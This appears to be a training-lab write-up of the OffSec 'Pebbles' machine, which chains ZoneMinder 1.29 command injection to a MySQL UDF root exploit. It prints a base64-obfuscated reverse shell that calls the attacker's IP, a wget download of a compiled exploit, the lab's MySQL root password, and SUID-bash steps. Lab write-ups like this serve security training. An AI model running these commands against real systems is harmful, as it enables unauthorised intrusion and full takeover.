# Lab Report - Pebbles


# Overview 
- **Difficulty**: Easy
- **Community Rating**: Hard
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/pebbles-304/overview/details

## Resolution Summary 
Fuzzing for web directories on a web application running on port 80 revealed a ZoneMinder v 1.29.0 install, which was vulnerable to Unauthenticated RCE (CVE-2023-26035), allowing us to gain a shell access to the target as `www-data`. Noticing that `mysqld` was running as root, we recovered the root DB credentials in `zm.conf` and gained a shell by abusing UDF.

# Information Gathering 
- To begin with, we enumerated available services as well as their versions using Nmap. We discovered a web application running on port 80.
```bash
sudo nmap 192.168.146.52 -p- -sCV
```
<p align="center">
  
</p>


- Upon accessing the web application, we found a login page. However, it was not relevant in our exploitation. 

- Following that, we decided to fuzz for web directories. We noticed that the `/zm` directory was valid, which is short for `ZoneMinder` (a surveillance software system): 
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt:FUZZ -u http://192.168.146.52/FUZZ -t 180 -ic
```
<p align="center">
  
</p>


- After accessing the `ZoneMinder` root directory, we discovered that version `1.29` was running, which is vulnerable to Unauthenticated RCE (`CVE-2023-26035`): 
```bash
http://192.168.146.52/zm/index.php
```
<p align="center">
  
</p>


# Exploitation 
- Using the following [PoC](https://github.com/Henryisnotavailable/ZoneMinder-1.29.0-RCE-Stored-XSS), we could obtain a foothold (reverse shell) on the target.
- First, we set up a listener: 
```bash
penelope -p 80
```

- Next, we pressed `Add New Monitor` -> `Source`, then we abused command injection in the `Device Path` field.
	- In this case, we executed a reverse shell: 
```bash
/dev/video0;echo 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDE5Mi4xNjguNDUuMjEzIDgwID4vdG1wL2Y='|base64 -d|bash;#
```
<p align="center">
  
</p>


- Finally, we gained a shell access on the target: 
```bash
id
```
<p align="center">
  
</p>


# Privilege Escalation 
- After finder the configuration file for `ZoneMinder`, we discovered the MySQL root user credentials: 
```bash
cat /etc/zm/zm.conf
```
<p align="center">
  
</p>


- Moreover, we noticed that MySQL could be running under root's security context: 
```bash
ps auxww | grep root
```
<p align="center">
  
</p>


- Therefore, we aimed to exploit [MySQL UDF](https://www.exploit-db.com/exploits/1518) feature, which would allow us to gain root-level command execution.
- First, we copied the exploit code locally: 
```bash
cp /usr/share/exploitdb/exploits/linux/local/1518.c .
```

- Since the target was running `Ubuntu 16.04` and did not have `gcc` installed, compiling the exploit on our machine and transferring it on the target would likely result in `glibc` compatibility issues. 
- Hence, we started a a compatible ubuntu container (we also mounted our working directory to the `src` directory on the docker instance) and we installed `gcc`: 
```bash
docker run --rm -it \
  -v "$PWD":/src \
  -w /src \
  ubuntu:16.04 bash
#Once inside the docker container
apt update
apt install -y gcc libc6-dev
```

- Following that, we compiled exploit and created the shared object: 
```bash
gcc -g -c -fPIC 1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
ls
```
<p align="center">
  
</p>


- Having the compiled shared object, we exited the docker instance, and started a python HTTP server in order to transfer it to the target: 
```bash
exit
python3 -m http.server 22
```

- On the target, we downloaded the exploit from our attacking machine: 
```bash
wget http://192.168.45.213:22/raptor_udf2.so
```
<p align="center">
  
</p>


- Next, we authenticated as root to the local MySQL instance, then executed the relevant commands for the exploit:
	- Note that we wrote the shared library at `/usr/lib/mysql/plugin/raptor_udf2.so`, which was not the case in the exploit (it comes down to MySQL being newer on our target, enforcing that UDF libraries must be located in `plugin_dir`.)
```bash
mysql -u root -pShinyLucentMarker361
#Inside the MySQL client
use mysql;
CREATE TABLE foo(line BLOB);
INSERT INTO foo VALUES(LOAD_FILE('/tmp/raptor_udf2.so'));
SELECT * FROM foo INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
```
<p align="center">
  
</p>
<p align="center">
  
</p>


- After that, we confirmed that we had root-level command execution with: 
```bash
select do_system('id > /tmp/out; chown www-data.www-data /tmp/out');
\! sh
id
cat /tmp/out
exit
```
<p align="center">
  
</p>


- Having confirmed that, we could make `/bin/bash` a SUID binary, allowing us to gain a root shell: 
```bash
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
exit
ls -la /tmp/rootbash
/tmp/rootbash -p
id
```
<p align="center">
  
</p>


- Finally, we retrieved the flag: 
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>

# Trophy 
**Proof.txt → `197301e0e1ba01015296eea00d301c2a`**

# Lessons Learned
- When `/usr/sbin/mysqld` runs as root and we have root access to the DB, we can abuse UDF to gain a root shell.
